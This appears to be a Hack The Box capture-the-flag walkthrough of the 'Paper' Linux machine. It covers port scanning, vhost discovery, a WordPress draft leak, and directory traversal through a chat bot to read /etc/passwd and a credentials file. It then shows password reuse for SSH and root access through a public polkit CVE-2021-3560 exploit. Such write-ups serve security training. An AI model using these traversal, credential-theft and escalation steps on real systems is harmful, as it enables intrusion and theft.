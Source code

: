 # HTB 

**Machine Information**

	IP : 10.10.11.143
	OS : Linux

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.11.143 -- -sC -sV
```

```
PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcZzzauRoUMdyj6UcbrSejflBMRBeAdjYb2Fkpkn55uduA3qShJ5SP33uotPwllc3wESbYzlB9bGJVjeGA2l+G99r24cqvAsqBl0bLStal3RiXtjI/ws1E3bHW1+U35bzlInU7AVC9HUW6IbAq+VNlbXLrzBCbIO+l3281i3Q4Y2pzpHm5OlM2mZQ8EGMrWxD4dPFFK0D4jCAKUMMcoro3Z/U7Wpdy+xmDfui3iu9UqAxlu4XcdYJr7Iijfkl62jTNFiltbym1AxcIpgyS2QX1xjFlXId7UrJOJo3c7a0F+B3XaBK5iQjpUfPmh7RLlt6CZklzBZ8wsmHakWpysfXN
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE/Xwcq0Gc4YEeRtN3QLduvk/5lezmamLm9PNgrhWDyNfPwAXpHiu7H9urKOhtw9SghxtMM2vMIQAUh/RFYgrxg=
|   256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKdmmhk1vKOrAmcXMPh0XRA5zbzUHt1JBbbWwQpI4pEX
80/tcp  open  http     syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/emailAddress=root@localhost.localdomain
| Subject Alternative Name: DNS:localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/emailAddress=root@localhost.localdomain/organizationalUnitName=ca-3899279223185377061
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-07-03T08:52:34
| Not valid after:  2022-07-08T10:32:34
| MD5:   579a:92bd:803c:ac47:d49c:5add:e44e:4f84
| SHA-1: 61a2:301f:9e5c:2603:a643:00b5:e5da:5fd5:c175:f3a9
| -----BEGIN CERTIFICATE-----
| MIIE4DCCAsigAwIBAgIIdryw6eirdUUwDQYJKoZIhvcNAQELBQAwgY8xCzAJBgNV
| BAYTAlVTMRQwEgYDVQQKDAtVbnNwZWNpZmllZDEfMB0GA1UECwwWY2EtMzg5OTI3
| OTIyMzE4NTM3NzA2MTEeMBwGA1UEAwwVbG9jYWxob3N0LmxvY2FsZG9tYWluMSkw
| JwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9zdC5sb2NhbGRvbWFpbjAeFw0yMTA3
| MDMwODUyMzRaFw0yMjA3MDgxMDMyMzRaMG4xCzAJBgNVBAYTAlVTMRQwEgYDVQQK
| DAtVbnNwZWNpZmllZDEeMBwGA1UEAwwVbG9jYWxob3N0LmxvY2FsZG9tYWluMSkw
| JwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9zdC5sb2NhbGRvbWFpbjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAL1/3n1pZvFgeX1ja/w84jNxT2NcBkux
| s5DYnYKeClqncxe7m4mz+my4uP6J1kBP5MudLe6UE62KFX3pGc6HCp2G0CdA1gQm
| 4WYgF2E7aLNHZPrKQ+r1fqBBw6o3NkNxS4maXD7AvrCqkgpID/qSziMJdUzs9mS+
| NTzWq0IuSsTztLpxUEFv7T6XPGkS5/pE2hPWO0vz/Bd5BYL+3P08fPsC0/5YvgkV
| uvFbFrxmuOFOTEkrTy88b2fLkbt8/Zeh4LSdmQqriSpxDnag1i3N++1aDkIhAhbA
| LPK+rZq9PmUUFVY9MqizBEixxRvWhaU9gXMIy9ZnPJPpjDqyvju5e+kCAwEAAaNg
| MF4wDgYDVR0PAQH/BAQDAgWgMAkGA1UdEwQCMAAwIAYDVR0RBBkwF4IVbG9jYWxo
| b3N0LmxvY2FsZG9tYWluMB8GA1UdIwQYMBaAFBB8mEcpW4ZNBIaoM7mCF/Z+7ffA
| MA0GCSqGSIb3DQEBCwUAA4ICAQCw4uQfUe+FtsPdT0eXiLHg/5kXBGn8kfJZ45hP
| gcuwa5JfAQeA3JXx7piTSiMMk0GrWbqbrpX9ZIkwPnZrN+9PV9/SNCEJVTMy+LDQ
| QGsyqwkZpMK8QThzxRvXvnyf3XeEFDL6N4YeEzWz47VNlddeqOBHmrDI5SL+Eibh
| wxNj9UXwhEySUpgMAhU+QtXk40sjgv4Cs3kHvERvpwAfgRA7N38WY+njo/2VlGaT
| qP+UekP42JveOIWhf9p88MUmx2QqtOq/WF7vkBVbAsVs+GGp2SNhCubCCWZeP6qc
| HCX0/ipKZqY6zIvCcfr0wHBQDY9QwlbJcthg9Qox4EH1Sgj/qKPva6cehp/NzsbS
| JL9Ygb1h65Xpy/ZwhQTl+y2s+JxAoMy3k50n+9lzCFBiNzPLsV6vrTXCh7t9Cx07
| 9jYqMiQ35cEbQGIaKQqzguPXF5nMvWDBow3Oj7fYFlCdLTpaTjh8FJ37/PrhUWIl
| Li+WW8txrQKqm0/u1A41TI7fBxlUDhk6YFA+gIxX27ntQ0g+lLs8rwGlt/o+e3Xa
| OfcJ7Tl0ovWa+c9lWNju5mgdU+0v4P9bqv4XcIuyE0exv5MleA99uOYE1jlWuKf1
| m9v4myEY3dzgw3IBDmlYpGuDWQmMYx8RVytYN3Z3Z64WglMRjwEWNGy7NfKm7oJ4
| mh/ptg==
|_-----END CERTIFICATE-----
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_ssl-date: TLS randomness does not represent time
|_http-title: HTTP Server Test Page powered by CentOS
| tls-alpn:
|_  http/1.1
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
```

### Getting a Foothold

Accessing the web server on port 80 shows a test page without any useful information.

**Dirsearch**

Running `dirsearch` reveals two endpoints but nothing of interest is available.

```
dirsearch -u http://10.10.11.143
```

```
[19:57:23] 200 -  171B  - /.npm/anonymous-cli-metrics.json
[19:57:47] 200 -    9KB - /manual/index.html
```

Looking at the requests in Burp Suites shows something interesting. Despite the homepage returning content it is being registered as a status code 403. Checking the headers also shows a potential vhost.

```
HTTP/1.1 403 Forbidden
Date: Mon, 29 Jul 2024 10:02:23 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

Update the `/etc/hosts` file. Visiting the vhost we can now see a WordPress site called **Blunder Tiffin**. This is using version 5.2.3 of WordPress which is vulnerable to CVE-2019-17671. Looking at this exploit shows an easy way to reveal additional information.

https://www.exploit-db.com/exploits/47690

If we append `?static=1` to our website we can see more information about Michael putting secrets in the drafts. 

http://office.paper/?static=1

The page also includes a link to a new vhost that we will need to updated in `/etc/hosts`.

http://chat.office.paper/register/8qozr226AhkCHZdyY

We can register an account and gain access to the Rocket Chat system. The chat shows a bot called `recyclops` that answers a few questions but it appears that the group chat is read only. However, there is a message from Kelly that shows that we can direct message the bot "We can also send Direct Messages to recyclops!".

Using this open a direct message to `recyclops` and type `help` to get the list of commands. Using the the `list` and `get` commands we can interact with files in on the underlying system. The bot is vulnerable to directory traversal so we can get the `/etc/passwd` file with the following command:

```
file ../../../etc/passwd
```

```
root❌0:0:root:/root:/bin/bash
bin❌1:1:bin:/bin:/sbin/nologin
daemon❌2:2:daemon:/sbin:/sbin/nologin
adm❌3:4:adm:/var/adm:/sbin/nologin
lp❌4:7:lp:/var/spool/lpd:/sbin/nologin
sync❌5:0:sync:/sbin:/bin/sync
shutdown❌6:0:shutdown:/sbin:/sbin/shutdown
halt❌7:0:halt:/sbin:/sbin/halt
mail❌8:12:mail:/var/spool/mail:/sbin/nologin
operator❌11:0:operator:/root:/sbin/nologin
games❌12💯games:/usr/games:/sbin/nologin
ftp❌14:50:FTP User:/var/ftp:/sbin/nologin
nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus❌81:81:System message bus:/:/sbin/nologin
systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin
tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd❌998:996:User for polkitd:/:/sbin/nologin
geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin
qemu❌107:107:qemu user:/:/sbin/nologin
apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin
cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin
pulse❌171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
usbmuxd❌113:113:usbmuxd user:/:/sbin/nologin
unbound❌995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
gluster❌994:989:GlusterFS daemons:/run/gluster:/sbin/nologin
chrony❌993:987::/var/lib/chrony:/sbin/nologin
libstoragemgmt❌992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
saslauth❌991:76:Saslauthd user:/run/saslauthd:/sbin/nologin
dnsmasq❌985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
radvd❌75:75:radvd user:/:/sbin/nologin
clevis❌984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
pegasus❌66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
sssd❌983:981:User for sssd:/:/sbin/nologin
colord❌982:980:User for colord:/var/lib/colord:/sbin/nologin
rpcuser❌29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
setroubleshoot❌981:979::/var/lib/setroubleshoot:/sbin/nologin
pipewire❌980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin
gdm❌42:42::/var/lib/gdm:/sbin/nologin
gnome-initial-setup❌979:977::/run/gnome-initial-setup/:/sbin/nologin
insights❌978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin
sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi❌70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
tcpdump❌72:72::/:/sbin/nologin
mysql❌27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
nginx❌977:975:Nginx web server:/var/lib/nginx:/sbin/nologin
mongod❌976:974:mongod:/var/lib/mongo:/bin/false
rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```

Exploring the folders in the home directory shows one called `hubot`. There is a `.env` file in there that looks interesting. If we get the file it reveals credentials for the bot.

```
file ../hubot/.env
```

Since we know `dwight` is a user we can see if this password has been reused.

```
ssh dwight@10.10.11.143
```

Success!

```
[dwight@paper ~]$ w
 06:36:41 up 48 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
dwight   pts/0    10.10.14.21      06:36    1.00s  0.02s  0.00s w
```

Grab the flag.

```
cat /home/dwight/user.txt
```

### Privilege Escalation

Running `linPEAS` shows that the target machine is potentially vulnerable to CVE-2021-3560. We found the following proof of concept to use.

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

Run the exploit to create a new user with `sudo` privileges.

```
./poc.sh -u=null -p=null
```

Switch to our newly created user.

```
su - null
```

If everything worked we should be able to drop into a root shell.

```
sudo bash
```

**NOTE:** this took multiple attempts but eventually worked

Grab the flag.

```
cat /root/root.txt
```
